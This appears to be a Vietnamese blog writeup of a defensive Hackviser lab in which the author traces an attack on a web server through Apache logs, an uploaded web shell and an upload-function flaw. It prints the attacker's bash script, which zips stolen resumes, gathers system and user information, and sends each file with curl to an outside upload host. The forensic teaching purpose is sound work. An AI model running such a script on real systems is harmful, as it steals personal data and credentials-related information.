 ```yaml
---
title: '[Writeup] Hackviser Scenarios'
description: "Đây là writeup của các Lab trong Scenarios Hackviser"
tag: ['Writeup', 'Web', 'Hackviser']
top_img: /img/2025/hackviser/logo.png
cover: /img/2025/hackviser/logo.png
category: ['Writeup', 'Hackviser']
date: 2025-08-06 08:56:38
author:
    - d4kw1n
---
```


# First Say

- Ghi chú lại lời giải của những Lab ở phần Scenarios của nền tảng Hackviser.
- Tháng 8 này phải hard để trong top 5 ^^

# Lab

## HackTrace

### Description

![HackTrace Description](/img/2025/hackviser/hacktrace-des0.png)

![HackTrace Description](/img/2025/hackviser/hacktrace-des.png)

![HackTrace Question](/img/2025/hackviser/hacktrade-ques.png)

### Step

- Đây là một challenge nghiên về Defend, chúng ta sẽ được cung cập quyền truy cập vào server bị tấn công nên chỉ cần tập trung vào việc phân tích các hoạt động tấn công của Hacker.
- Run challenge và "Go to Machine".

1. What is the IP address of the attacker who targeted the website?

- Để trả lời cho câu hỏi này, chúng ta sẽ kiểm tra nội dung của file `/var/log/apache2/access.log` (Đây là file lưu trữ nhật ký truy cập vào web của apache).

```bash
> head /var/log/apache2/access.log
10.0.0.41 - - [03/Feb/2024:08:33:50 -0500] "GET / HTTP/1.1" 200 4050 "-" "gobuster/3.6"
10.0.0.41 - - [03/Feb/2024:08:33:50 -0500] "GET /6e5e4550-fe97-42cd-8ce7-bb952a70f255 HTTP/1.1" 404 432 "-" "gobuster/3.6"
10.0.0.41 - - [03/Feb/2024:08:33:50 -0500] "GET /cgi-bin HTTP/1.1" 404 432 "-" "gobuster/3.6"
10.0.0.41 - - [03/Feb/2024:08:33:50 -0500] "GET /education HTTP/1.1" 404 432 "-" "gobuster/3.6"
10.0.0.41 - - [03/Feb/2024:08:33:50 -0500] "GET /go HTTP/1.1" 404 432 "-" "gobuster/3.6"
10.0.0.41 - - [03/Feb/2024:08:33:50 -0500] "GET /accessibility HTTP/1.1" 404 432 "-" "gobuster/3.6"
10.0.0.41 - - [03/Feb/2024:08:33:50 -0500] "GET /- HTTP/1.1" 404 432 "-" "gobuster/3.6"
10.0.0.41 - - [03/Feb/2024:08:33:50 -0500] "GET /tv HTTP/1.1" 404 432 "-" "gobuster/3.6"
10.0.0.41 - - [03/Feb/2024:08:33:50 -0500] "GET /text HTTP/1.1" 404 432 "-" "gobuster/3.6"
10.0.0.41 - - [03/Feb/2024:08:33:50 -0500] "GET /radio HTTP/1.1" 404 432 "-" "gobuster/3.6"
```

![Access Log](/img/2025/hackviser/access-log-hacktrade.png)

> Answer: 10.0.0.41

2. What tool did the attacker use for directory scanning?

- Dựa vào kết quả của `access.log` thì dễ dàng thấy được attacker đang scan bằng tool `gobuster`

> Answer: gobuster

3. What is the name of the file uploaded by the attacker to the system that allows remote computer access via the web?

![Malicious File Uploaded By Hacker](/img/2025/hackviser/hacktrade-shell.png)

> Answer: shell.php

4. Which function in the software is responsible for the file upload vulnerability?

- Vì lỗ hổng bị khai thác là Upload File nên chỉ cần đọc nội dung file upload.php để tìm đáp án.

![Upload Function](/img/2025/hackviser/hacktrade-upload.png)

> Answer: uploadFile

5. Which important file has the attacker stolen from the system by compressing it into a zip file?

- Ở trong danh sách các file thì có một file lạ có tên là: `xdfds.sh`
- Đọc nội dung file này

```bash
> ls
2023-resumes  fontawesome-5.5  index.php  magnific-popup  upload.php  xdfds.sh
css       img          js     slick       uploads
> cat xdfds.sh
#!/bin/bash


zip -r /tmp/2023-resumes.zip /var/www/html/2023-resumes

curl -F "file=@/tmp/2023-resumes.zip" http://dataprocessingframework.hv/upload

hostname > /tmp/system_info.txt
uname -a >> /tmp/system_info.txt
ifconfig >> /tmp/system_info.txt

curl -F "file=@/tmp/system_info.txt" http://dataprocessingframework.hv/upload

cut -d: -f1 /etc/passwd > /tmp/users.txt
curl -F "file=@/tmp/users.txt" http://dataprocessingframework.hv/upload
> 
```

![Malicios Bash File](/img/2025/hackviser/hacktrade-maliciousbash.png)

> Answer: 2023-resumes.zip

6. Which domain did the attacker use to upload the data they accessed?

- Dựa vào nội dung của file `xdfds.sh` để tìm đáp án

> Answer: dataprocessingframework.hv

